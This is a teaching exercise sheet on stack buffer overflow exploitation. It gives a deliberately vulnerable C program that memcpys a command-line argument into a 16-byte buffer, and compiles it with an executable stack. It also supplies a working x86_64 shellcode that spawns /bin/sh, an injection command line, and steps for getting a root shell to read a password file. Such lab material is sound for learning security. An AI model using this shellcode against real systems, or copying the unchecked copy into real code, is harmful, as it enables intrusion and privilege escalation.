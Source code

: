 :title:  Buffer Overflow Exploitation Excercise
:author: Andre Rein
:geometry: left=2.5cm,right=2.5cm,top=2cm,bottom=2cm


Exercise: Buffer Overflow Stack
-------------------------------


The code we will use for the exploitation is as follows:

.. code:: c

    #include <stdio.h>
    #include <string.h>

    int main(int argc, char **argv) {
      char buffer[16];
      char buffer2[16];

      buffer[15]='\0';
      buffer2[15]='\0';

      printf("Hello Buffers\n\n");

      for (int i=0;i<argc;i++){
        printf("argv[%d]: %s\n", i, argv[i]);

      }
      printf("Buffer2: @%p\n", &buffer2);
      printf("Buffer : @%p\n", &buffer);

      memcpy(buffer2,argv[1], strlen(argv[1]));

      printf("Buffer2: @%p [%s]\n", &buffer2, buffer2);
      printf("Buffer : @%p [%s]\n", &buffer, buffer);

      return 0;
    }


Exercises: 
-----------

The code from above contains a buffer overflow vulnerability. The goal of this
exercise is to exploit this vulnerability and use it to spawn a shell.

Step 1: Understand the code:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~

#. Locate the buffer overflow vulnerability inside the code

#. Compile your code as follows:

   ``gcc -g stack_variables/stack.c -z execstack -o output/stack_exec_stack``

#. Play around with the command line arguments and understand what happens
   inside the code

   ``./output/stack_exec_stack parameter``

   - **IMPORTANT: once you get segmentation faults, use ``dmesg`` to figure out what was going on.**

   - **Alternatively you can also use a debugger if you are familiar using one. ``gdb`` and ``radare2`` are available.**



#. Answer the following questions:
   
   #. How many Bytes are available in your buffer?

   #. How many Bytes do you need to overflow until you receive a segmentation
      fault?
   
Step 2: Understand the exploit:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Go to https://www.exploit-db.com/exploits/42179/ or look at the file
   ``exploit_shellcode.c`` or check the summary below.
   
   Quick summary:
       .. code::
        
        ##########
        # Source #
        ##########
        section .text
            global _start
            _start:
              push rax           /*
              xor rdx, rdx        * Prolog
              xor rsi, rsi        */
              mov rbx,'/bin//sh' /* important line! */
              push rbx           /* 
              push rsp            * setup stack frame
              pop rdi             */
              mov al, 59         /* xx refers to ??? syscall*/
              syscall            /* execute ???*/

        ######################## 
        # shellcode (24 bytes) #
        ########################
        
            \x50\x48\x31\xd2\x48\x31\xf6\x48
            \xbb\x2f\x62\x69\x6e\x2f\x2f\x73
            \x68\x53\x54\x5f\xb0\x3b\x0f\x05

2. Try to understand what the shellcode does. Questions:

   #. Which syscall is used by the shellcode?
   #. Why does the string for the shell use two slashes ``//`` instead of just one `/`?
   #. Why is the 1st parameter put in a register?



3. Use the shellcode from above or a different one and find a way how to inject your shellcode into your
   buffers.

   - E.g. with python:  

   ``./output/stack_exec_stack $(python -c 'print "\x50..."')``

.. raw:: latex

    \clearpage

4. Figure out the padding space you will need between your shellcode inside the buffers and the return
   address you want to overwrite.
   
   - How much padding space do you need?

   ``
   [shellcode][...padding...][return address]
   ``

   *Note: The padding space could be larger than you would expect, so watch carefully when the first errors occur. Use ``dmesg`` and watch what happens to the instruction pointer. If you see no changes, the padding is most likely wrong. Adjust the padding size.*

5. Figure out the correct address that points to your shellcode and overwrite
   the return address accordingly. 
   
   (*Note 1: X86_64 uses little endian byte order!*)
   
   (*Note 2: The last 4 Bytes of the targeted return address changes sometimes. So consider this during your exploit.*)


Step 3: Test the exploit:
~~~~~~~~~~~~~~~~~~~~~~~~~

#. Put everything together in a single command line argument and execute your exploit.

    - In case you were successful, you now have a ``sh`` shell prompt indicated by ``$``

    - You can execute any command you like.

    - You can logout with ``ctrl+d``

Step 4: Use the techniques to get the root password
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

#. There is an already pre-compiled version of this program available. You can find it here: ``output/stack_exec_root``

    - Use what you learned and exploit this program instead. 

    (Note: The targeted return address may be different this time.)

    - Once you have a shell (this time this is a root shell, indicated by a ``#``) read the contents of the file ``secret`` to get the password for the root account.


